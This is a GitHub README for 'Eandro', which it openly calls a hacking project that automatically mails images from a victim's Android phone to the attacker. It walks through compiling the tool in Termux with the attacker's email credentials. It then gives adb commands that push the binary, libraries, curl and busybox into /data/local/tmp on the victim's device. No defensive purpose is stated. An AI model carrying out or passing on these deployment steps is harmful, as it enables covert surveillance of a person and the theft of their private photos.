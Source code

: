 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer

2 . Download Files that i Provided

3 . Download Eandro.c code to your Mobile or computer

4 . And here tough part comes install clang in Android or computer 

5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.

6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses

7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]

8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 

apt install clang

after successfully installtion of these two proceed following steps

cd /data/data/com.termux/files/home/

git clone git@github.com:maddalakum/Eandro.git

cd /data/data/com.termux/files/home/Eandro/lib64/ ; 

adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 

for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 

adb push ../curl /data/local/tmp/ ; 

adb push ../busybox /data/local/tmp/

In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ

